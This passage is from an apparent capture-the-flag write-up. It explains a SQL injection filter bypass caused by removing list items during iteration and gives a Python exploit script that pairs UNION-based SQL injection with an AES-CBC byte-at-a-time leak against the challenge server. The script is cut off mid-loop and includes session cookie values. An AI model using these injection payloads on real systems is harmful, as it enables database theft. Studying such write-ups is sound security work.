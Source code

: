 However, preventing SQLI in this code consists of not only *detection*, but also *removal* of the terms. The terms are split by spaces into a list, then a for loop iterates and removes each term if SQLI is detected. The issue lies in the loop
```python
        for term in terms:  
            if detect_sqli(term):  
                print(f"Removing blacklisted term {term}")  
                terms.remove(term)  
```
If an item is removed during iteration, the loop will skip over the next item and no detection or removal of the item happens. https://stackoverflow.com/a/1207427.
Hence, a query like `Next_term_is_skipped_SELECT %'/*You_are_free_to_execute_sql_here*/SELECT/**/BLAHBLAH.../**/;--` will allow for SQLI. 
(Comments are used to bypass spaces and prevent query from being split)
> ![[Pasted image 20241204114515.png]]

Interestingly, chatgpt would have also pointed out the solution if you chatgpt'd hard enough
https://chatgpt.com/share/674fd0a1-2870-800e-a95d-b7a7bc4bdc3e (Issue not mentioned)
https://chatgpt.com/share/674fd0b0-6dec-800e-a95f-92c880c7ef2d (Issue mentioned)
## RentAHitman 2
Actually a crypto chal. 
https://en.wikipedia.org/wiki/Padding_oracle_attack
"To my knowledge, Since AES-CBC block cipher is being used with a constant IV and a constant SALT, we are able to use an algorithm to guess each character one by one."
```python
import requests
from Crypto.Util.number import bytes_to_long
import time
import string
BASE_URL = "https://rentahitman-com-1-rentahitman-chall.ybn.sg" #TODO

# range for possible flag chars
ascii_start = 32
ascii_end = 126

block_byte_start = 0
block_byte_end = 16
block_byte_size = 16
pw = ""
payload_length = block_byte_end-len(pw)-1
starting_bytes = "a"*payload_length
uuid = "075dccc5-3b76-4a15-9306-e943c676132b"
session = "eyJpc19sb2dnZWRfaW4iOnRydWUsInVzZXJfaWQiOjN9.Z0n1ng.40KJnmVn8-Gur4fZ-4nCKLQEJCI"
GCLB = "CKDj2fyUjcrZ5AEQAw"
UserAgent = "YesButNo/1.0"
# attack until get last byte, b"}", attacks for more than 16 bytes
def get_encrypted_pw(pw):
    response = requests.post(BASE_URL+"/signup", data={"username": pw, "password": pw},cookies={"uuid":uuid,"session":session,"GCLB":GCLB},headers={"User-Agent":UserAgent})
    sqli = f"-- dhadhlsjldas%'/**/UNION/**/SELECT/**/username,password,userId/**/FROM/**/users/**/WHERE/**/username='{pw}'--"
    response = requests.post(BASE_URL+"/filter", data={"search": sqli},cookies={"uuid":uuid,"session":session,"GCLB":GCLB},headers={"User-Agent":UserAgent})
    data = response.json()[0]
    if data[0] != pw:
        print(f"Error: {data} {pw}")
        exit()
    return bytes.fromhex(data[1])

chars = string.ascii_letters + string.digits
for i in range(16):
    # payload = hex(bytes_to_long(starting_bytes))[2:]
    actual_leak = get_encrypted_pw(starting_bytes)
```